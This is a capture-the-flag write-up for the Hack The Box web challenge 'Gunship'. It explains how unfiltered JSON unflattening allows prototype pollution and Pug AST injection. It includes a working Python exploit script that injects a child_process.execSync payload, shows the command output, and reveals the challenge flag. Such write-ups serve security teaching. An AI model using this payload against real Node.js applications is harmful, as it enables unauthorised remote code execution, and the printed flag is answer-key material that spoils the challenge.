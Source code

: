 # Gunship

## Overview

* Difficulty: Very Easy
* Category: Web

## Description
> A city of lights, with retrofuturistic 80s peoples, and coffee, and drinks from another world... all the wooing in the world to make you feel more lonely... this ride ends here, with a tribute page of the British synthwave band called Gunship. 🎶

## Approach

1. Looking through the code of routes/index.js, we can see that the unflatten function is used without filtering the given JSON data. We can abuse this to pollute the data with a command execution (check [this link](https://blog.p6.is/AST-Injection/) to see how this works)

__ATTENTION__: the blog article made by po6ix contains both an explanation with Handlebars and with Pug. In this case, we're going to work with exploiting Pug, but in an older version of this challenge Handlebars was used.

2. We can write a python script that exploits the unflattening with an AST injection, running our injected command and storing it's output on a file that we can easily get with an HTTP request:

```py
import requests

url = 'http://138.68.155.238:31391'

cmd = 'ls > /app/static/out.txt'

# make pollution
r = requests.post(url+'/api/submit', json = {
        "artist.name":"Gingell",
        "__proto__.block": {
            "type": "Text",
            "line":"process.mainModule.require('child_process').execSync(`"+cmd+"`).toString()"
        }
    })

print("COMMAND INJECTED\n"+"_"*30)
print(cmd+"\n")
print("OUTPUT\n"+"_"*30)
print(requests.get(url+'/static/out.txt').text)
```

As we can see from the following output, the injection worked:

```bash
COMMAND INJECTED
______________________________
ls > /app/static/out.txt

OUTPUT
______________________________
flagQ7gI0
index.js
node_modules
package.json
routes
static
views
yarn.lock
```

3. Now we have to just use `cat flag* > /app/static/out.txt` as our injected command to read the flag

## Flag

<details>
<summary>Click to view the flag</summary>

__HTB{wh3n_lif3_g1v3s_y0u_p6_st4rT_p0llut1ng_w1th_styl3!!}__

</details>